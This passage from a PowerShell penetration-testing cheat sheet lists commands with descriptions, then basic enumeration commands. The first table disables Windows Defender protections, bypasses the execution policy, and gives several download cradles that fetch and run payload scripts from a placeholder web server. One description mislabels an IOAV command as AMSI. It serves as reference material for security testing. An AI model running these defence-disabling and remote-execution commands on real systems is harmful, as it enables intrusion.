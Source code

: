 ### PowerShell Pentesting Toolkit

Here are Windows PowerShell commands (change the parameters and values as appropriate) and links to specialized code to help you do penetration testing using PowerShell:

| Command                                                     | Description                                                                                                                                   |
|-------------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------|
| `Set-ExecutionPolicy -ExecutionPolicy Bypass`               | In this powerful command, “`Bypass`” means removing all obstacles to running commands/scripts and disabling warnings and prompts.               |
| `Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVprotection $true}` | Microsoft’s Antimalware Scan Interface (AMSI) allows antivirus software to monitor and block PowerShell scripts in memory.                   |
| `Set-MpPreference -DisableRealTimeMonitoring $true`        | Turn off Windows Defender.                                                                                                                   |
| `Import-Module /path/to/module`                             | Import module from a directory path `/path/to/module`.                                                                                        |
| `iex (New-Object Net.WebClient).DownloadString('https://[webserver_ip]/payload.ps1')` | Download execution cradle: a payload PowerShell script `payload.ps1`.                                                                       |
| `iex (iwr http://[webserver_ip]/some_script.ps1 -UseBasicParsing)` | Downloading a PowerShell script `some_script.ps1` and running it from random access memory (RAM)                                             |
| `iex (New-Object Net.WebClient).DownloadString('http://[webserver_ip]/some_script.ps1')` | Download a PowerShell script `some_script.ps1` into RAM instead of disk                                                                    |
| `iex (New-Object Net.WebClient).DownloadString('http://[webserver_ip]/some_script.ps1');command1;command2` | Allow a PowerShell script `some_script.ps1` to run commands (`command1, command2`) one at a time directly from RAM.                       |
| `iex (New-Object Net.WebClient).DownloadString('http://localhost/powerview.ps1');Get-NetComputer` | Run `localhost`’s PowerView (`powerview.ps1`) function `Get-NetComputer` directly from RAM.                                                 |


### Enumeration Commands

To [enumerate](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md) is to extract information, including users, groups, resources, and other interesting fields, and display it. Here is a table of essential enumeration commands:

| Command                     | Description                                           |
|-----------------------------|-------------------------------------------------------|
| `net accounts`              | Get the password policy                              |
| `whoami /priv`              | Get the privileges of the currently logged-in user    |
| `ipconfig /all`             | List all network interfaces, IP, and DNS             |
| `Get-LocalUser \| Select *` | List all users on the machine                        |
| `Get-NetRoute`              | Get IP route information from the IP routing table    |
| `Get-Command`               | List all PowerShell commands                         |


You may come across PowerShell modules and scripts such as [Active Directory](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/virtual-dc/active-directory-domain-services-overview), PowerView, PowerUp, [Mimikatz](https://www.stationx.net/how-to-use-mimikatz/), and Kekeo, all of which pentesters use. We encourage you to learn them independently.

From:

https://www.stationx.net/powershell-cheat-sheet/
